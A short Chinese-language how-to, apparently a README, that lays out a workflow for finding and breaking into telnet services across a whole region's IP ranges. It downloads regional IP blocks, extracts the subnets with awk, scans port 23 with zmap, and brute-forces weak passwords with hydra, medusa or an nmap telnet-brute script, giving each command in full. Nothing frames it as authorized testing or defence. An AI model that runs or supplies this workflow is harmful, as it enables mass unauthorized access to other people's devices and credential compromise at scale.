 
1、下载指定地区IP段
    通过http://ipblock.chacuo.net/ 下载制定IP段文件
    
2、处理IP段，变成子网验码段
    awk '{print $3}' chinaip.txt > targetip.txt
    
3、通过zmap扫描上述文件的特定端口（如：23端口）
    zmap -w targetip.txt -p 23 -B 2M -o targetipresult.txt
    
4、通过hydra、medusa或者python调用库自己编写弱口令探测
    nmap -p 23 --script telnet-brute --script-args userdb=user.txt,passdb=pwd.txt,telnet-brute.timeout=8s -Pn -iL host.txt -v
    
